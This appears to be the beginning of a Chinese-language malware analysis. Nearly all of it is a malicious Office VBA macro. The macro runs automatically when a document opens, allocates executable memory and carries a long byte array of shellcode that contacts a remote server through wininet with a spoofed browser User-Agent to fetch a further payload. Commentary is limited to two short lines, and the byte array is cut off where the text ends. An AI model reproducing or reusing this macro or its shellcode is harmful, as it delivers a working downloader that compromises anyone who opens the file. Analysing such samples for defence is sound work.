 ### 代码解析

直接捋主逻辑

```vb
Sub AutoOpen()
    Auto_Open
End Sub

Sub Workbook_Open()
    Auto_Open
End Sub
```

指示在文档打开时自动调用 `Sub Auto_Open` 的代码

```vb
Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

    #If VBA7 Then
        Dim rwxpage As LongPtr, res As LongPtr
    #Else
        Dim rwxpage As Long, res As Long
    #End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,80,0,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,104,55,113,76,0,-64,-89,-9,-97,-35,-61,-2,67,-43,-76,-7,-112,84,-36,22,-7,16,53,19,-31,10,-80,108,-37,-14,26,-10,113,40,56,-114,-98, _
92,-39,-88,-5,79,-69,-88,-9,27,40,-87,7,111,29,13,2,76,-49,-60,-4,-47,-74,-64,20,-27,-74,-112,45,-88,-61,-3,103,-19,11,-121,23,69,65,106,-75, _
87,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,52,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,56,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,53,46,49,59,32,84,114,105,100,101,110,116,47,52,46,48,59,32,81,81, _
68,111,119,110,108,111,97,100,32,55,51,51,59,32,73,110,102,111,80,97,116,104,46,50,41,13,10,0,-111,-101,90,56,32,-115,-23,-46,-92,90,98,26, _
93,-84,-29,-103,28,86,81,-101,-43,88,-56,-37,-28,-52,75,-99,60,-123,-63,-92,109,23,-13,71,32,124,-3,-51,72,6,28,32,21,23,100,-38,9,121,99,114, _
-26,54,-2,84,45,-95,-32,90,-108,20,-74,50,66,116,-113,-28,-31,49,-55,-23,-81,120,53,32,-127,31,8,23,20,-80,20,-50,-122,113,-19,5,67,-35,72,-38, _
108,-128,-52,-46,30,-35,49,78,-62,20,-63,-124,-116,-41,-100,-95,-49,117,82,83,49,-77,35,103,6,-122,77,-57,106,-33,-46,36,-76,4,-30,-23,18,119,54,-121, _
-54,119,0,-81,-125,-46,87,32,-110,-33,-103,52,-71,-116,-15,25,101,-37,108,51,15,88,-6,-33,68,-119,-97,-8,-24,7,6,-30,-128,1,102,-9,-41,33,34,59, _
12,-124,78,3,-105,-100,-84,-105,-52,88,12,113,124,-116,69,82,-66,-124,63,96,-36,38,69,14,-111,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
```
